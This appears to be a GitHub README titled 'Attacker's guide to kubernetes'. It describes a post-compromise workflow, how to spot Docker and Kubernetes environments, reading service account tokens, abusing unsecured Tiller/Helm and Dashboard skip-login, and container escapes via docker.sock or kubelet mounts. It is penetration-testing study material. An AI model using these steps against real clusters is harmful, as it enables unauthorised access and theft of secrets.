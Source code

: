 # Attacker's guide to kubernetes

## General

Typical workflow:

Get cluster access (internal, RCE on container, etc)

⬇
️
Check for serviceaccount and its privileges

⬇️

Scan for services and try to get other accounts

🔄
⬇️

Get admin account or an account with sufficient privileges

⬇️

Execute code on cluster/steal data

### ServiceAccount

By default on every container a "default service account" is mounted to dir `/run/secrets/kubernetes.io/serviceaccount`

By default it has no value, but admins may give it permissions, e.g Helm, Dashboard

Check if account can get secrets, so you can compromise other accounts with different privileges

---

How to distinguish account token/keys?

ServiceAccount can be in forms:

- CA certificate + JWT token (usually on containers, `Webhook` authn)
- CA certificate + client certificate + client key (usually in `.yaml` files as base64encoded strings, `TLS` authn)

With any form you can query `apiserver` by http with, e.g `curl`. See [notes](./NOTES.md) for second form usage examples, and k8s docs for `Webhook`.

## How to know we are in...

### Docker container

- `/.dockerenv`
- `/entrypoint.sh`,`/app-entrypoint.sh`
- strange hostname looking like hex string `de605c442545`
- PID 1 process is application process or small init system like `dumb-init`
- `cat /proc/self/cgroup` shows that we are in cgroup

  Example:

  ```
  root@de605c442545:/# cat /proc/self/cgroup
  12:cpuset:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  11:freezer:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  10:perf_event:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  9:rdma:/
  8:net_cls,net_prio:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  7:pids:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  6:memory:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  5:hugetlb:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  4:blkio:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  3:cpu,cpuacct:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  2:devices:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  1:name=systemd:/docker/de605c4425454a410b82da7b6ceeb73ba15ed4adab5c3ae10602b648ba296225
  0::/system.slice/docker.service
  ```

### K8s pod

- docker signs if it is CRI
- hostname like `<app-name>-[a-f0-9]{10}-[a-z0-9]{5}`

  Example: `tomcat-55c4cc5fcd-7l6x4`

- `cat /proc/self/cgroup` shows that we are in k8s

  Example:

  ```
  11:pids:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  10:cpuset:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  9:blkio:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  8:memory:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  7:hugetlb:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  6:perf_event:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  5:freezer:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  4:cpu,cpuacct:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  3:net_cls,net_prio:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  2:devices:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  1:name=systemd:/kubepods/burstable/pode060d9f5-4f41-4153-8daf-4a7ee2a7eaad/4088e78945f24d32ca3e1b09f097704c9c92e70f525a553fef8da2e6c7f333fd
  ```

  But, there is an option that k8s controls cgroups via systemd

- run `mount`

  Example:

  ```
  ...
  cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (ro,nosuid,nodev,noexec,relatime,cpu,cpuacct)
  cgroup on /sys/fs/cgroup/blkio type cgroup (ro,nosuid,nodev,noexec,relatime,blkio)
  cgroup on /sys/fs/cgroup/memory type cgroup (ro,nosuid,nodev,noexec,relatime,memory)
  ...
  tmpfs on /run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime)
  ```

## Addon attacks

Prerequisite:

- dns queries are not blocked
- no network policy blocking connection

### Helm

Given no TLS was configured you can use Helm as an admin

1. Download helm cli

```console
$ wget https://get.helm.sh/helm-v2.14.3-linux-amd64.tar.gz
$ tar xfv helm-v2.14.3-linux-amd64.tar.gz
```

2. Use helm

```console
$ ./helm --host tiller-deploy.kube-system.svc.cluster.local:44134
```

[Demo](./imgs/helm_pwn.svg)
[Chart creation](./attacks/helm/README.md)

### Dashboard

If **`cluster-admin` role** is given to dashboard serviceaccount and `--enable-skip-login` is set, then you can bypass login in kubernetes dashboard

1. Just go to `https://kubernetes-dashboard.kubernetes-dashboard.svc.cluster.local`
2. Click `skip` button

## Container attacks

Never forget about typical container(Docker) attacks:

- Mounted `docker.sock` => root on node
- Mounted `/var/lib/kubelet/` dir => kubelet account (get secrets, pods _by name_)
- Pod running on master => direct exposure to `etcd`
